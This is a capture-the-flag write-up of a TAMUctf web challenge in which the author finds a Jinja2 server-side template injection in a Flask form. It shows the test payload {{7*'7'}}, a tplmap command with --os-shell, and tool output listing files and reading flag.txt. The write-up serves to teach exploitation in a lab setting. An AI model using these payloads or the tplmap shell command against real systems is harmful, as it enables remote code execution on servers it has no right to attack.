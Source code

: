 This was a web challenge with an estimated difficulty of "medium". Other than the difficulty, the only content in the challenge description was a link to the target web server.

Browsing to the web server reveals a page that reads "Welcome to my new FaaS! (Flask as a Service) Please enter the two chemicals you would like to combine: " and then two fields for Chemical One and Chemical Two. Using Burp Suite to intercept this POST request shows that the request and response look like this:

<code>
POST /science HTTP/1.1 <br />
Host: web3.tamuctf.com <br />
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0 <br />
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 <br />
Accept-Language: en-US,en;q=0.5 <br />
Accept-Encoding: gzip, deflate <br />
Referer: http://web3.tamuctf.com/ <br />
Content-Type: application/x-www-form-urlencoded <br />
Content-Length: 15 <br />
Connection: close <br />
Upgrade-Insecure-Requests: 1 <br />

chem1=a&chem2=b <br />


HTTP/1.1 200 OK <br />
Server: nginx/1.15.8 <br />
Date: Mon, 04 Mar 2019 13:33:53 GMT <br />
Content-Type: text/html; charset=utf-8 <br />
Content-Length: 272 <br />
Connection: close <br />

\<html>
        \<div style="text-align:center"> <br />
        \<h3>The result of combining a and b is:\</h3>\</br> <br />
        \<iframe src="https://giphy.com/embed/AQ2tIhLp4cBa" width="468" height="480" frameBorder="0" class="giphy-embed" allowFullScreen>\</iframe>\</div> <br />
        \</html>
</code>


Interestingly, user-provided output is reflected in the HTTP response. Given the reference to Flask, this suggested to me the possiblity of a Server-Side Teplate Injection vulnerability. To test for this futher, I made use of <a href="https://portswigger.net/blog/server-side-template-injection">this excellent blog post </a>from Portswigger.

The blog post recommends using a couple different payloads and seeing if they're interpreted by the templating engine before being reflected to the user. One of the recommended payloads is {{7*'7'}}. I sent this data via POST request:

<code>
chem1={{7*'7'}}&chem2={{7*'7'}} <br />
</code>

The relevant portion of the response was:

<code>
The result of combining 7777777 and 7777777 is: <br />
</code>

Clearly, my input had been interpreted. This particular response indicates that the Jinja2 templating engine is in use. Rather than try to perform further exploitation by hand, I decided to take the opportunity to experiment with the tool TPLmap, which is an automated exploitation tool for SSTI vulnerabilities, much like SQLmap for SQL injection vulnerabilities. The tool can be found here:
https://github.com/epinna/tplmap

TPLmap has a feature that, after determining an injection point, will provide a pseudo-shell to the user to allow for easy remote code execution. To exploit the SSTI I'd identified, I used this command:

<code>
python tplmap.py -u "http://web3.tamuctf.com/science" -d "chem1=1&chem2=whatever" -e jinja2 --os-shell <br />
</code>

This provided a shell, which allowed me to view the directory contents and grab the flag:

<code>
[+] Tplmap 0.5 <br />
    Automatic Server-Side Template Injection Detection and Exploitation Tool <br />

[+] Testing if POST parameter 'chem1' is injectable <br />
[+] Jinja2 plugin is testing rendering with tag '{{*}}' <br />
[+] Jinja2 plugin has confirmed injection with tag '{{*}}' <br />
[+] Tplmap identified the following injection point: <br />

  POST parameter: chem1 <br />
  Engine: Jinja2 <br />
  Injection: {{*}} <br />
  Context: text <br />
  OS: posix-linux2 <br />
  Technique: render <br />
  Capabilities: <br />

   Shell command execution: ok <br />
   Bind and reverse shell: ok <br />
   File write: ok <br />
   File read: ok <br />
   Code evaluation: ok, python code <br />

[+] Run commands on the operating system. <br />
posix-linux2 $ ls <br />
config.py <br />
entry.sh <br />
flag.txt <br />
requirements.txt <br />
serve.py <br />
tamuctf <br />
posix-linux2 $ cat flag.txt <br />
gigem{5h3_bl1nd3d_m3_w17h_5c13nc3} <br />
</code>
